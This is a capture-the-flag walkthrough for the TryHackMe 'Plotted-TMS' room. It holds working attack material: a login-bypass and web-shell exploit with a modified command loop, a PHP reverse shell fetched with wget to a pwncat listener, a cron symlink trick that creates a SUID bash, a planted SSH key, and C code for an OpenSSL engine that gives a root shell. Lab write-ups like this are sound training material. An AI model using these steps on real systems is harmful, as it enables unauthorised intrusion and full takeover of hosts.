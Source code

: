 ```yaml
---
title: Walkthrough - Plotted-TMS
published: true
---
```


Tags: Security, Linux, RCE, PrivEsc, Linking
Description: Everything here is plotted!
Difficulty: Easy
URL: [https://tryhackme.com/room/plottedtms](https://tryhackme.com/room/plottedtms)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- 10.10.154.213 -vvv`
- `sudo nmap -sC -sV -sT -O -p22,80,445 10.10.154.213`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `gobuster dir -u http://10.10.154.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 80 contains a few different folders

```
/admin                (Status: 301) [Size: 314] [--> http://10.10.154.213/admin/]
/shadow               (Status: 200) [Size: 25]                                   
/passwd               (Status: 200) [Size: 25]   
```

- `/passwd` and `/shadow` contain a base64 message `bm90IHRoaXMgZWFzeSA6RA==` 

```
┌──(0xskar㉿cocokali)-[~]
└─$ echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d                  
not this easy :D  
```

- `/admin` contains an `id_rsa` file - `Trust me it is not this easy..now get back to enumeration :D`

Dead end port 80. onto port 445:

- `gobuster dir -u http://10.10.102.139:445/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 445 has a `/management` directory with an admin portal `/management/admin/login.php`.

Checking out the [source](https://www.sourcecodester.com/php/14909/online-traffic-offense-management-system-php-free-source-code.html) of this management system the default credentials `admin:admin123` 

Capturing the request in burpsuite we can see that SQLi is possible, and there are also few exploits in exploitdb we can use. 

- `python2 50221.py`
- `http://10.10.137.125:445/management/`

Running the script and trying gets us connected but doesnt ewrurn us anything and we can see some errors when we try to run commands.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/plotted-tms]
└─$ python2 50221.py

Example: http://example.com

Url: http://10.10.137.125:445/management/
Check Url ...

[+] Bypass Login

[+] Upload Shell

[+] Exploit Done!

$ id
Traceback (most recent call last):
  File "50221.py", line 107, in <module>
    request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 119, in post
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 516, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 459, in prepare_request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 314, in prepare
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 388, in prepare_url
requests.exceptions.MissingSchema: Invalid URL '/management/uploads/1660858140_evil.php?cmd=id': No schema supplied. Perhaps you meant http:///management/uploads/1660858140_evil.php?cmd=id?
```

modifying the exploit lets us properly run it. adding the direct url to the request

```
        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post("http://10.10.137.125:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)
```

we can now get a reverse shell by using nc 

- start up pwncat listenr `pwncat-cs -lp 6666`
- the nc mkfifo diesnt seem to work so i wget over a php reverse shell pentestmoney.
- access it at http://10.10.137.125:445/management/uploads/php-reverse-shell.php and recieve the rev shell

* * * 

## What is the content of user.txt?

- `cat /etc/crontab`

plot_admin is running a script 

```
(remote) www-data@plotted:/$ cat /var/www/scripts/backup.sh 
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

1. create a script that copies bash to a shell than changes the files mode bits so it can be executed `echo "cp /bin/bash /home/plot_admin/pa_shell; chmod +xs /home/plot_admin/pa_shell" > script.sh`
2. change mode bits of script so it can be executed `chmod +x script.sh`
3. make a symbolic force link between the created script.sh with the bash and the plot_admins backup.sh `ln -sf script.sh backup.sh`
4. run the shell to get escalate to plot_admin `/home/plot_admin/pa_shell -p`

![0xskar](/assets/plotted-tms01.png)

add our ssh key to the user dir so we can ssh in as the user.

1. `mkdir .ssh && chmod 0700 .ssh`
2. on attacker ssh-keygen new key
3. `echo "sshkey" > .ssh/authorized_keys` && `chmod 0600`
4. ssh in

* * * 

## What is the content of root.txt?

```
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl 
```

since we can run openssl as root create lets creat an exploit to take advantage

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

![0xskar](/assets/plotted-tms02.png)

* * * 

